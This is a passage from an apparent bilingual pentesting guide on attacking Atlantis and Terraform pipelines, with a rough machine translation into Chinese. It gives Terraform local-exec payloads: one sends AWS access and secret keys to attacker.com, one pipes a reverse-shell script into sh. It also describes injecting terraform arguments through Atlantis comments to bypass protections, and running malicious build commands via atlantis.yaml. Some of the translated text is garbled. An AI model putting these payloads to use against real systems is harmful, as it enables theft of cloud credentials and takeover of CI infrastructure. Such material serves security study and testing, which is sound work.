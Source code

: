 ```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
  provisioner "local-exec" {
    command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
  provisioner "local-exec" {
    command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
  }
}
```

Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way**.

遵循以前技术的**建议，以**隐身的方式执行此攻击。

### Terraform Param Injection

### Terraform参数注入

When running `atlantis plan` or `atlantis apply` terraform is being run under-needs, you can pass commands to terraform from atlantis commenting something like:

在运行“亚特兰蒂斯计划”或“ Atlantis Appla” Terraform的情况下，您可以将命令传递给Terraform，从Atlantis评论以下内容：

```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```

Something you can pass are env variables which might be helpful to bypass some protections. Check terraform env vars in [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

您可以通过的东西是ENV变量，可能有助于绕过一些保护。 检查[https://www.terraform.io/cli/config/environment-variables]（

### Custom Workflow

###自定义工作流程

Running **malicious custom build commands** specified in an `atlantis.yaml` file. Atlantis uses the `atlantis.yaml` file from the pull request branch, **not** of `master`.\

运行**恶意自定义构建命令**在A atlantis.yaml`文件中指定。 Atlantis使用“ atlantis.yaml”文件中的``pull request barking''文件，**不是`master。
This possibility was mentioned in a previous section:

在上一节中提到了这种可能性：
